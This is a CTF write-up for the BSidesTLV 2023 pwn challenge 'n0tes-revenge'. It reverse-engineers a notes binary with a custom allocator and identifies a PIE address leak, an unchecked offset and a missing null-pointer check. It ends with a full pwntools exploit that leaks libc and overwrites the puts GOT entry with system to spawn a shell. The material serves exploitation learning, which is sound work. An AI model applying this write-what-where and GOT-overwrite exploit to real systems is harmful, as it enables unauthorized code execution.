


# n0tes-revenge

## Challenge Description

**Category**: Pwn

**Description**: 
> Last year you defeated my notes software. But this year I wrote my own allocator.
> No more ptmalloc primitives for you hackers!

**By**: [0x_shaq](https://twitter.com/0x_shaq)

**files**: *add links for the file here

**challenge link**: https://ctf23.bsidestlv.com/challenges#n0tes-revenge-33 (maybe not available by the time you are reading this)

The challenge was a pwn/binary-exploitation where you needed to get shell and read the flag. (or read and print the flag file)

**Me and my team(C0d3 Bre4k3rs) could not solve the challenge the challenge during the CTF!**
**I solved it after the CTF with help from the creator of this challenge [0x_shaq](https://twitter.com/0x_shaq) so huge thanks to him!**

Sections in this writeup: Challenge Description, Overview of the elf, Code Evaluation / decompiling and naming, Vulnerability, Exploit.

note: **For those who want to jump ahead (ctrl+f)**
**Jump to "Vulnerability" if you already reversed the binary**

## Overview of the elf
Firstly lets run `$checksec` to check the elf's protections:
in the `$checksec` you can see that almost everything is on(Canary, NX, PIE, and FORTIFY) and that there is no RELRO.

I will assume you played with the elf a little and saw its behavior.
to summarize:
the program lets you execute 4 commands, "New Note", "Edit Note", "Show Note" and "Delete Note"
after every command you can see the banner.

"**New Note**": Creates a new note, place for input, after creating some notes it tells you "[!] Error, not enough memory".

"**Edit Note**": Lets you edit the note by a given offset, it seems you can edit wherever you want but the offset can't be negative and you cannot edit a note that has yet to be created. (up to 16 chars!)

"**Show Note**": Shows you the current note.

"**Delete Note**": Shows some address I guess the address of the function of delete. (does not delete).

## Code Evaluation / decompiling and naming
Firstly disassemble and decompile the code in whatever you like, In the following steps I will mostly refer to the decompiled C like code.

Functions: main, initBanner, **initHeap**, showOptionsAndBanner, showNote, deleteNote, newNote, editNote, **customMalloc** 

We get this code in main: 
(full main in the main part)

	  ...
      sub_121F(arg1, arg2, arg3);
      sub_1299();
      while ( 1 ){
      ...
   sub_121F seems to have been called with 3 arguments? weird, but remember this is the start of the function which means it could just be a misinterpretation at the decompile side, and later on we will discover that sub_121F actually did have 0 arguments.
Because it is the start of main we can assume that sub_121F and sub_1299 are both initializing stuff, keep that thought in mind while going though the code.

 Lets jump into sub_121F:
 ### sub_121F/initBanner

    int sub_121F()
    {
      FILE *v0; // rax
      FILE *v1; // rbx
    
      setvbuf(stdout, 0LL, 2, 0LL);
      v0 = fopen("banner.txt", "r");
      if ( !v0 )
        return puts("Failed to open the banner file.");
      v1 = v0;
      byte_3740[fread(byte_3740, 1uLL, 0xFFFuLL, v0)] = 0;
      return fclose(v1);
    }
We can see that all it does is it reads banner.txt file and puts the output in byte_3740, and in the end it puts 0.
I will assume this is the "banner" that it shows each time.
Which means this function is just "initBanner"
so we set sub_121F to "initBanner", and byte_3740 to "banner".

### sub_1299/initHeap

    char *sub_1299()
    {
      char *result; // rax
      char *v1; // rdx
      int v2; // ecx
      int v3; // esi
    
      qword_3718 = (char *)-1LL;
      result = (char *)mmap(0LL, 0x1000uLL, 3, 34, -1, 0LL);// r&w
      qword_47C8 = (__int64)result;
      dword_4740 = 0;
      v1 = (char *)&unk_4748;
      v2 = 1;
      do
      {
        *(_QWORD *)v1 = result;
        result += 256;
        v3 = v2++;
        v1 += 8;
      }
      while ( v1 != (char *)&unk_4748 + 128 );
      dword_4744 = v3;
      return result;
    }

First of all we can see the mmap, it does read and write.
it sets some global variables, we still don't know what they are so I will just call them something like that:
qword_3718 is "unknown1"
qword_47C8 is "addrOfRWMemory" (because it holds the memory for the mmap allocated memory)
dword_4740 is "unknown2"
unk4748 is someAddr1

After that you can see some more complex behavior:
Firstly we can see that v2 is basically just a regular counter, it starts at 1 and adds 1 to it every iteration, and v3 is well the one number before v2, or in other words the actual number of times the loop happened, so I will call v3 'i' and I will call v2 'afterMe' (because it is always +1 from i) (you may also call v2 length-1 or whatever you want)
Furthermore we can see the number 256 in an addition but I like hex so I changed it to 0x100.
and now for v1, we can see that it starts at "someAddr1/unk_4748",
and each time we add 8 to it, it is also the break case for the loop when it reaches "someAddr1/unk_4748"+0x80, so now we also know that the loop happens 0x10=16 times.
 I will set v1 to be "curLocation"
 
 dword_4744 is "lengthOfSomething" (because it is just i)
now lets see the function and figure out what it does

    char *sub_1299()
    {
      char *result; // rax
      char *curLocation; // rdx
      int afterMe; // ecx
      int i; // esi
    
      unknown1 = (char *)-1LL;
      result = (char *)mmap(0LL, 0x1000uLL, 3, 34, -1, 0LL);// r&w
      addrOfRWMemory = (__int64)result;
      unkown2 = 0;
      curLocation = (char *)&someAddr1;
      afterMe = 1;
      do
      {
        *(_QWORD *)curLocation = result;
        result += 0x100;
        i = afterMe++;
        curLocation += 8;
      }
      while ( curLocation != (char *)&someAddr1 + 0x80 );
      lengthOfSomething = i;
      return result;
    }
From here it is way easier to figure out what the function does,
so lets understand it.
The functions sets some things, allocates memory (0x1000 bytes to be exact)
Then it writes the location of each 0x100 in the 0x1000 bytes to the location of someAddr1, so someAddr1 is actually "addrArr" because it holds 10 locations of address that sit in the heap.
and that is what the loop does.
Knowing that I also changed "lengthOfSomething" to "lenAddrArr".
By knowing all of that and by the name of the challenge we can safely call the function "initHeap" because here he sets his "heap" for use.

### main
(For main I won't explain because it was pretty straight forward)

    int choice = 0; // [rsp+4h] [rbp-14h] BYREF
    initBanner();
    initHeap();
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          showOptionsAndBanner();
          __isoc99_scanf("%d", &choice);
          getc(stdin);
          if ( choice != 3 )
            break;
          showNote();
        }
        if ( choice <= 3 )
          break;
        if ( choice != 4 )
          goto invalidOption;
        deleteNote();
      }
      if ( choice == 1 )
      {
        newNote();
      }
      else
      {
        if ( choice != 2 )
        {
    invalidOption:
          puts("Invalid option!");
          exit(0);
        }
        editNote();
      }
    }

### showOptionsAndBanner

    __int64 showOptionsAndBanner()
    {
      puts(banner);
      puts("1. New note");
      puts("2. Edit note");
      puts("3. Show note");
      puts("4. Delete note");
      return __printf_chk(1LL, ">> ");
    }

Simply prints the banner (that is in a global variable)
and then some other things and then the >> for the setup for input.

### newNote

    unknown1 = (char *)sub_1313();
    if ( !unknown1 )
      return (char *)__printf_chk(1LL, "[!] Error, not enough memory");
    __printf_chk(1LL, "Content: ");
    return fgets(unknown1, 256, stdin);

We see 2 new important things in here, the use of unknown1 and a call for sub_1313, lets explore them (exploration of sub_1313 in the next one)
Please read sub_1313/customMalloc and return here.
From the costumMalloc we can understand that unknown1 is just the allocated area that we can write to.
so lets call it "note" because it is the note

    char *newNote()
    {
      note = (char *)customMalloc();
      if ( !note )
        return (char *)__printf_chk(1LL, "[!] Error, not enough memory");
      __printf_chk(1LL, "Content: ");
      return fgets(note, 0x100, stdin);
    }

From here it checks if there is a note, if there isn't, it prints an error and if there is it gets 0x100  bytes.

### sub_1313/customMalloc

    int v0; // edx
    int v1; // eax
    __int64 v2; // rcx
    
    v0 = lenAddrArr;
    if ( lenAddrArr && (v1 = unkown2[0], unkown2[0] <= 0x10u) )
    {
      v2 = addrOfRWMemory;
      *(_QWORD *)&unkown2[2 * unkown2[0] + 2] = addrOfRWMemory;
      addrOfRWMemory = v2 + 256;
      lenAddrArr = v0 - 1;
      unkown2[0] = v1 + 1;
      return v2;
    }
    else
    {
      puts("Error: Not enough available memory.");
      return 0LL;
    }
   We already have some renamed variables here and we know that this function's result will go into unknown1.
  Remember that unknown2 is initialized with 0, and unknown1 with -1.
  We already said that there is a heap init,
  so you can guess and say this is a heap malloc (and that would be correct)
  but still lets read the code and see what is happening
  first of all we see that v0 just keeps lenAddrArr so I will call it "lenAddrArrCopy"
and v1 is ::unknown2[0], now ::unknown2[0] may seem wired in contrast to the other code we saw and that is because of the decomplication weirdness, treat it as if it was unknown2 (to prove that you can go the assembly and see:)
(not that its not correct, just that it might confuse you with the other ones)
proff: 

    mov     eax, cs:unkown2
    cmp     eax, 10h

(note that this happens also with the other ::unknown2[0] so beware)
In the end of the function's if it does 

    unkown2 = v1 + 1;

This line tells us that we can rename "unknown2" to "mallocCnt" because as you can see here it just counts the number of times we reach the if statment in the customMalloc (remember that v1 is a copy of unknown2, that is why this line is just a + 1)

v2 is addr of memory so addrOfMemoryCopy
and we can see that it adds to addrOfMemory 0x100. 

Lets see everything together

    __int64 customMalloc()
    {
      int lenAddrArrCopy; // edx
      int mallocCnt; // eax
      __int64 addrOfMemoryCopy; // rcx
    
      lenAddrArrCopy = lenAddrArr;
      if ( lenAddrArr && (mallocCnt = ::mallocCnt[0], ::mallocCnt[0] <= 0x10u) )
      {
        addrOfMemoryCopy = addrOfRWMemory;
        *(_QWORD *)&::mallocCnt[2 * ::mallocCnt[0] + 2] = addrOfRWMemory;
        addrOfRWMemory = addrOfMemoryCopy + 0x100;
        lenAddrArr = lenAddrArrCopy - 1;
        ::mallocCnt[0] = mallocCnt + 1;
        return addrOfMemoryCopy;
      }
      else
      {
        puts("Error: Not enough available memory.");
        return 0LL;
      }
    }

okay now to the interesting line:

    *(_QWORD *)&::mallocCnt[2 * ::mallocCnt[0] + 2] = addrOfRWMemory;

Now it does something that seems to be a little weird, so lets see what exactly it does!
When it does +2 it is actually +8 bytes, because mallocCnt is an int, and int's are 4 bytes so +2 in them is actually +8 bytes.
or you can just look in the assembly (at least I that's why I guess that is why it is, this is kind of a decompiler issue, kind of)

    mov     [rsi+rdi*8+8], rcx

It actually puts addrOfRWMemory somewhere else, and this somewhere else is in jumps of 8 bytes (again same story with the *2)'
Lets look at the memory and see what seats at that place:

0x4740 mallocCnt	(4 bytes)
0x4744 lenAddrArr (4 bytes)
0x4748 addrArr (lots of bytes, 0x80 bytes)

We can see that this is addrArr
or we can look in another decompiler and we there you can see:

    (&addrArr)[mallocCnt] = addrOfRWMemory;

In conclusion, if we pass the if: we write to addrArr the address that we are returning that the user using this function will want to write to, after that we add 0x100 to addrOfRWMemory, decrease the length of the array by one (lenAddrArr) and add 1 to the counter that checks how many times we were in this if in that exact function (mallocCnt),
and then we return address of that "new" location the "allocated" chunk where the program will do things with that address.
note that allocated is with " because this is not malloc it is custom malloc.

If it does not pass the check, which checks if lenAddrArr is not 0 and if mallocCnt is less than or equal to 0x10, or in other words checks if you completed the allocated size (if you "filled the entire heap" (this heap, not the actual))
if you "filled the entire heap"  then it will print an error msg and return 0.

btw you can also call these variables like that:
numOfFreeChunks can be numOfFreeChunks
addrOfMemoryCopy can be curChunk
addrOfRWMemory = topChunk

So I will call this function "customMalloc".

### showNote

    int showNote()
    {
      if ( note == (char *)-1LL )
        return puts("No active note, create a new note in order to view it");
      else
        return __printf_chk(1LL, "Content: %s", note);
    }

Shows the current note, if it is not initialized yet does not show it.

### deleteNote

    __int64 deleteNote()
    {
      return __printf_chk(1LL, "[delete_note@%p] :: Not yet implemented\n", deleteNote);
    }

Exactly what we guessed earlier, deleteNote prints the address of deleteNote.

### editNote

    void editNote()
    {
      int64 i; // rbx
      char v1; // al
      int64 v3; // [rsp+0h] [rbp-18h] BYREF
      unsigned int64 v4; // [rsp+8h] [rbp-10h]
    
      v3 = 0LL;
      if ( note == (char *)-1LL )
      {
        __printf_chk(1LL, "[!] Create a note first");
      }
      else
      {
        __printf_chk(1LL, "Offset: ");
        __isoc99_scanf("%ld", &v3);
        getc(stdin);
        if ( v3 < 0 )
        {
          puts("[!] Invalid offset.");
        }
        else
        {
          __printf_chk(1LL, "[*] You are editing the following part of the note at offset %ld:\n----\n", v3);
          fwrite(&note[v3], 1uLL, 0x10uLL, stdout);
          puts("\n----");
          __printf_chk(1LL, "[>] New content(up to 16 chars): ");
          for ( i = 0LL; i != 16; ++i )
          {
            v1 = getc(stdin);
            if ( v1 == 10 )
              break;
            note[i + v3] = v1;
          }
        }
      }
    }

We can see that it takes input into v3, it takes %ld into it so its probably the index, and if we look ahead we see the it is, so I will rename v3 to "index".
v1 is one char so I will just change its name to inputChar.
and the new code is:

    void editNote()
    {
      int64 i; // rbx
      char inputChar; // al
      int64 index; // [rsp+0h] [rbp-18h] BYREF
      unsigned int64 canary; // [rsp+8h] [rbp-10h]
    
      index = 0LL;
      if ( note == (char *)-1LL )
      {
        __printf_chk(1LL, "[!] Create a note first");
      }
      else
      {
        __printf_chk(1LL, "Offset: ");
        __isoc99_scanf("%ld", &index);
        getc(stdin);
        if ( index < 0 )
        {
          puts("[!] Invalid offset.");
        }
        else
        {
          __printf_chk(1LL, "[*] You are editing the following part of the note at offset %ld:\n----\n", index);
          fwrite(&note[index], 1uLL, 0x10uLL, stdout);
          puts("\n----");
          __printf_chk(1LL, "[>] New content(up to 16 chars): ");
          for ( i = 0LL; i != 16; ++i )
          {
            inputChar = getc(stdin);
            if ( inputChar == 10 )
              break;
            note[i + index] = inputChar;
          }
        }
      }
    }

Firstly it checks if the note is created, if it is it pops a msg, and exists.
After that it takes an offset, and it is a long int.
After that it writes the current 0x10=16 bytes at that offset and lets you enter 0x10=16 bytes yourself, you can enter anything except 10(\n), when you enter 10(\n) it stops.

## Vulnerability
### bug 1 - _Breaking the binary's ASLR/PIE_
First of all we can get the delete function addr with the show function, and with that we can get the binary base and "erase" 	the PIE protection of the binary.

note that here I am only getting the base of the binary and not the libc base, that will come later on.

### bug 2 -  _Getting an OOB read-write_
Now for the second bug:
well if you had a sharp eye you could see that in "editNote" we can put any positive index because all it checks is (positive in 64bit which gives us a wide range!

    if ( index < 0 )
      {
        puts("[!] Invalid offset.");
      }
So we got the second bug, we can write anywhere! kind of, but there is one problem, from where are we writing?? we cannot know where are we writing from because we do not know where is note, so this bug alone is well not enough :( (at least from my current knowledge, let me know if you find something or if there is any new cool way to do that only with this bug in the future) 

### bug 3 - _No null pointer check in editNote and showNote_
Now for the final and third bug.
Lets have a quick look at "customMalloc", in that function we can see that if it is full it will return 0.
Now lets jump to "newNote", in it we do see a check if note is 0 but it only prints an error and does nothing else to fix or something like that.
Ok but that is fine, but only if the "editNote" function will also check for the 0/null which it dosen't!
It checks if the note is -1 (doesn't exist, happens only before even the first allocation) but the function forgot to check for 0!

The same thing happens in "showNote".

If you want the source code decompile yourself or goto editNote part in the Code Evaluation / decompiling and naming section in the to see the function code, this is the last function, closest to here

### combining the vulnerabilities
Now by combining the second (write wherever relative to note) and the third, no check for 0/null in editNote and you can put 0/null in note, you can achieve a write-what-where primitive!
Well if you know where it is..
and this is where the first bug comes along!
By overcoming PIE (/ASLR of the binary, still not for libc that will come in the future) or in other words discovering the base of the elf you discover many things including the location of "banner", "note", also because there is no full RELRO you can edit the GOT entries, you can see all the functions locations (that are in your elf, not the ones from libc for example) and you can see global variables locations and maybe edit them and more..!

Now to the third step which is leaking the libc base address, there are many ways to do that.
From here what I heard there were a couple of approaches,
one person (from camelRiders) had the idea to edit the note so that it will point to the GOT entries of printf/puts and then do showNote which will show the address of printf/puts and from there you have the libc address.
But there is also another way, that I like more, and that is the one I will use, I will utilize the fact that after I set an offset in editNote it tells me what's in it (16 bytes always), so if I give the address of the GOT entry of puts it will give me the address of the puts and let me edit it in the same go. (and it doesn't matter which 16 bytes these are because it prints with fwrite.

Now that we have libc we can do anything, you can try to find a one-gadget but I think that is over-complicating so I just went and changed the banner text to "/bin/sh\0" and changed the GOT puts to system and then when it went to print the banner BOOM we got shell!

## Exploit
The server uses a different kind of libc from my machine so I tried using https://libc.blukat.me/, and https://libc.rip/ and libc.rip found the correct solution, the correct libc is [libc6-amd64_2.36-3_i386](https://libc.rip/#) (at least it has the correct system and puts)

    from pwn import *
    
    delete = 0x11F9
    deleteNoteAddr = 0x11F9
    banner = 0x3740
    IP, PORT = "n0tes-revenge.ctf.bsidestlv.com", 9999
    
    elf = ELF('./n0tes-revenge')
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    con =  remote(IP, PORT) #process('./n0tes-revenge')
    
    def menu_pick(num: bytes):
    	con.recvuntil(b'>> ')
    	con.sendline(num)
    
    
    def leak_base() -> int:
    	menu_pick(b'4') #deleteNote
    	con.recvuntil(b'@')
    	delete_addr_hex = con.recvuntil(b']')[:-1]
    	delete_addr = int(delete_addr_hex, 16)
    	base = delete_addr - delete
    	return base
    
    def new_note(content: bytes):
    	menu_pick(b'1')
    	msg = con.recvuntil(b': ')
    	if b'Error' in msg:
    		return False
    	else: 
    		con.sendline(content)
    		return True
    
    
    def edit_note(index: int, content: bytes):
    	assert len(content) <= 16
    
    	prev_at_offset = edit_note_without_edit(index)
    	con.sendlineafter(b'(up to 16 chars): ', content)
    	return prev_at_offset
    
    
    def edit_note_without_edit(index: int):
    	menu_pick(b'2')
    
    	index = str(index).encode()
    
    
    	con.sendlineafter(b'Offset: ', index)
    	a = con.recvuntil(b':\n----\n')
    	prev_at_offset = con.recvuntil(b'\n----\n[>] New content')[:-len(b'\n----\n[>] New content')]
    
    	#The reason I chose such a long recuntil is because I need to choose one that is longer than 0x10 so it won't
    	#perceive what I recived as the recvuntil and create bugs. (for example if you do banner and \n----- it would cause problems)
    	
    	return prev_at_offset
    
    def show_note():
    	menu_pick(b'3')
    	content = con.recvline()[len('Content: '):-1]
    	return content
    
    def main():
    	base = leak_base()
    	print(hex(base))
    	
    	#putting 0 in note:
    	for i in range(0x10):
    		res = new_note(b'Who are you?')
    	new_note(b'woho now there is 0')
    
    	#now in note there is 0
    	#puting /bin/sh to the banner
    	edit_note(banner + base, b'/bin/sh\x00' )
    
    	#try with to get the correct libc
    	#https://libc.blukat.me/
    	#https://libc.rip/
    	puts_addr = u64(edit_note_without_edit(elf.got['puts'] + base)[:8])
    	print(f'puts addr is {hex(puts_addr)=}')
    	puts_offset = int(input('puts offset in libc: '), 16)
    	system_offset = int(input('system offset in libc: '), 16)
    
    	libc_base = puts_addr - puts_offset
    	print(hex(libc_base))
    
    
    	con.sendlineafter(b'(up to 16 chars): ', p64(system_offset + libc_base))
    
    	con.interactive()
    
    
    if __name__ == '__main__':
    	main()
    
    #BSidesTLV2023{0h-n0-null-ptr-derefs-ar3-a-pa1n}

Also if you don't like using websites to get libc you can get it with:
https://github.com/niklasb/libc-database

flag: 
> **BSidesTLV2023{0h-n0-null-ptr-derefs-ar3-a-pa1n}**

images of the solve:  

